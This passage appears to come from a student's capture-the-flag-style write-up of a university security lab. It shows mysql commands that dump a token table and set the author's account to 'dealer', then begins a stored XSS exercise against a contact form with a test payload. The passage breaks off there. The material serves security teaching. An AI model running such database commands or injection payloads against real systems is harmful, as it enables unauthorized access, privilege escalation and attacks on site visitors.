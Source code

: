 ```
orders          id
orders          user_id
orders          date
orders          cc
orders          cvv
orders          expire
orders          outfordelivery
orders_items    id
orders_items    order_id
orders_items    product_id
orders_items    quantity
orders_items    price
products        id
products        name
products        image
products        description
products        price
products        danger
token           token
users           id
users           name
users           full
users           password
users           is_dealer
users           email
users           killed_on
users           killed_by
```
From here, we notice the `token` table. If we print out its contents, we obtain:
```
mysql -h "127.0.0.1" -u "csecvm" -p "csecvm" -e "SELECT * FROM csecvm.token"

token
56ce367c12438b50275a38f59ea8f560
```
We've now found the token `56ce367c12438b50275a38f59ea8f560`.

For good measure, I also updated my account to be a dealer so that I don't need to manually reset my cookie to access the hidden webpage:
```
mysql -h "127.0.0.1" -u "csecvm" -p "csecvm" -e "UPDATE csecvm.users SET is_dealer=1 WHERE name='sitra'"
```
## Stored XSS
**Goal"** Find a stored XSS on one of the pages of the website and use it to deliver a payload that will raise an alert ”XSS!” when the vulnerable page is visited. There is no token for this exercise.

In the contact tab of the webpage, we can submit a contact form, containing a Name, Email and Message field. We can then view these messages from the Administrator portal. After submitting a test message, we checked how the messages are displayed:
```html
<label>Name</label>
<input name="name" type="text" disabled="disabled" value="test">
<label>Email</label>
<input name="email" type="email" disabled="disabled" value="test@bham.ac.uk">
<label>Message</label>
<textarea disabled="disabled" name="message" rows="3" style="width:400px">' alert(1);</textarea>
```
